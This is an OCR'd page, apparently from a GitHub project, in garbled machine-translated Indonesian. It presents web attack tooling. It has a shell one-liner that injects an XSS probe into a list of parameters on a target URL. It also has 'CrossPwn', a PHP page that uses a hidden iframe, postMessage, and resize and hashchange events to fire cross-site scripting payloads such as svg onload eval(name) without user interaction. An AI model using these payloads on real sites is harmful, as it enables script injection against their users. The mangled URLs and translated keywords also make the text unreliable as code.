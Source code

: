 probe (seperti <x) dan PARAMLIST, file dengan parameter 1 halaman per baris (seperti id, cod, q, query

dll) dalam skrip terminal di bawah ini. Ini adalah baris perintah dan "$" adalah terminal prompt.

       $ t="TARGET/"; x="XSS"; q=?; while read p; do q="$q&$p=$x"; done < PARAMLIST; wget -qO- $t$q | grep $x && echo "$t !"

> Cross-Origin Script (Crosspwn)

Simpan konten di bawah ini sebagai file .php dan gunakan sebagai berikut:

http: //localhost/crosspwn.php? target = // hacker.com.br/tests/

status.html & msg = peringatan <script> (document.domain)

Di mana "facebook.com" adalah asal yang diizinkan dan "localhost" sedang menyerang domain,

"//hacker.com.br/tests/status.html" adalah halaman target dan "peringatan <script> (document.domain)"

dikirim pesan.

Penggunaan lain adalah untuk menembak penangan event body onresize dan onhash tanpa pengguna

interaksi:

http: //localhost/crosspwn.php? target = // hacker.com.br/xss.php? a = <body /

onresize = lansiran (document.domain)>

Dan untuk mempersingkat dan menyembunyikan muatan yang disuntikkan, bidang tambahan "nama" dapat digunakan.

http: //localhost/crosspwn.php? target = // hacker.com.br/xss.php? a = <svg /

onload = eval (name)> & name = alert (document.domain)

=> Code:

      <!DOCTYPE html>
    
      <body onload="crossPwn()">
    
       <h2>CrossPwn</h2>
    
       <iframe src="<?=htmlentities($_GET\['target'\], ENT_QUOTES) ?>" name="<?=
    
       $_GET\['name'\] ?>" height="0" style="visibility:hidden"></iframe>
    
       <script>
    
       function crossPwn() {
    
       frames\[0\].postMessage('<?php echo $_GET\["msg"\] ?>','*'); // onmessage
    
       document.getElementsByTagName('iframe')\[0\].setAttribute('height', '1'); // onresize
    
       document.getElementsByTagName('iframe')\[0\].src = '<?=$_GET\["target"\] ?>' + '#brute'; //
    
       onhashchange
    
       }
    
       </script>
    
